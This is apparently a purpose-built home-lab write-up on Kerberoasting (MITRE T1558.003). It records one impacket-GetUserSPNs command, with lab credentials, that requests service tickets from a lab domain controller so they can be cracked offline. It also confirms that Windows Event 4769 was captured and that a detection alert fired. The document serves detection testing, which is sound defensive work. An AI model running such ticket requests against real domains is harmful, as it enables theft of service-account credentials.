



# 10 — Kerberoasting

## Overview

| Field           | Detail                                                                                                       |
| --------------- | ------------------------------------------------------------------------------------------------------------ |
| Status          | ✅ Completed                                                                                                  |
| Date            | 25 June 2026                                                                                                 |
| Tier            | Intermediate                                                                                                 |
| Attacker        | kali-linux-attacker-vm (10.0.10.3)                                                                           |
| Target          | win-dc (10.0.10.10)                                                                                          |
| MITRE Tactic    | Credential Access                                                                                            |
| MITRE Technique | [T1558.003 — Steal or Forge Kerberos Tickets: Kerberoasting](https://attack.mitre.org/techniques/T1558/003/) |
| Tool            | impacket GetUserSPNs                                                                                         |
| Log Source      | Windows Security Event 4769                                                                                  |
| Detection       | [detection/10-kerberoasting.md](../../detection/10-kerberoasting.md)                                         |

---

## Attack Steps

```bash
# From Kali, request service tickets for cracking (svc-sql created in setup 05):
impacket-GetUserSPNs 200teamok.local/jsmith:Passw0rd123! -dc-ip 10.0.10.10 -request
```

---

## Detection (summary)

Full SPL, alert settings, and notes are in the [detection file](../../detection/10-kerberoasting.md).

---

## Findings


| Field           | Result                                                                              |
| --------------- | ----------------------------------------------------------------------------------- |
| Date            | 25 June 2026                                                                        |
| Command used    | impacket-GetUserSPNs 200teamok.local/jsmith:Passw0rd123! -dc-ip 10.0.10.10 -request |
| Events captured | EventCode=4769                                                                      |
| Alert triggered | Yes                                                                                 |

---

## Screenshots

     